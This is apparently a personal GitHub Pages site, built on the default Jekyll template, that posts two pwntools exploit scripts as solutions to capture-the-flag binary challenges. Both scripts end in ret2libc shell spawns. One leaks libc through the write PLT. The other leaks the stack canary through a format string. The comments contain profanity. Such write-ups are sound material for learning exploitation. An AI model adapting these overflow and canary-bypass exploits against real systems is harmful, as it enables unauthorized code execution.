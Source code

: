## Welcome to Fuzzer's Palace

You can use the [editor on GitHub](https://github.com/Fuzz3rCTF/Fuzz3rCTF.github.io/edit/master/index.md) to maintain and preview the content for your website in Markdown files.

Whenever you commit to this repository, GitHub Pages will run [Jekyll](https://jekyllrb.com/) to rebuild the pages in your site, from the content in your Markdown files.

### Greek ECSC QUALS 2017-Pwn Challenge
```python
from pwn import *
from struct import pack, unpack


def pwn():
    p = lambda x : pack("I",x)
    r = process('./bombsaway')
    print r.recv()
    r.sendline('test')
    print r.recv()
    r.sendline('2')
    print r.recv()
    payload = 'A'*556
    payload += p32(0x080483b0) # plt of write
    payload += p32(0x08048400) # ret
    payload += p32(0x1)
    payload += p32(0x080f700c) # read in got
    payload += p32(0x4) #leak

    r.sendline(payload)
    rec = r.recvuntil('Password:')
    print rec
    i = 40
    rec = rec[i:i+4]
    read_libc = unpack('I', rec)[0]
    print '[+] Libc addr of read: '+hex(read_libc)
    libc_base = read_libc-0x0e5620
    print '[+] Libc base: '+hex(libc_base)
    sys = p(libc_base+0x03cd10)
    lol = p(libc_base+0x123456)
    binsh = p(libc_base+0x17b8cf)
    r.sendline('test')
    r.recvuntil('Option:')
    r.sendline('2')
    r.recvuntil(':')
    fpayload = 'A'*544
    fpayload += sys
    fpayload += lol
    fpayload += binsh
    r.sendline(fpayload)
    r.interactive()

pwn()
```

### HOW2BOF-Bof6 Challenge
```python
from pwn import *

def pwn():
        sys_off = 0x03ada0
        exit_off = 0x02e9d0
        bin_sh_off = 0x15ba0b
        p = lambda x : (x[2:].decode('hex'))[::-1]
        r = process('./bof6')
        r.recvuntil('Name: ')
        r.sendline('%x '*18)
        a = r.recvuntil(':')
        print a
        canary = hex(int(a[57:65], 16))
        libc=int(a[95:103],16)-1777664
        print "[+] Here is your cookie motherfucker: "+str(canary)
        print "[+] Libc base address SKIDO: "+hex(libc)
        payload = ""
        payload += "A"*64
        payload += p(canary)
        payload += "B"*12
        payload += p(hex(libc+sys_off))
        payload += p(hex(libc+exit_off))
        payload += p(hex(libc+bin_sh_off))
        r.sendline(payload)
        r.interactive()

pwn()
```
[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/Fuzz3rCTF/Fuzz3rCTF.github.io/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

[Twitter](https://www.twitter.com/proud_skid/) 
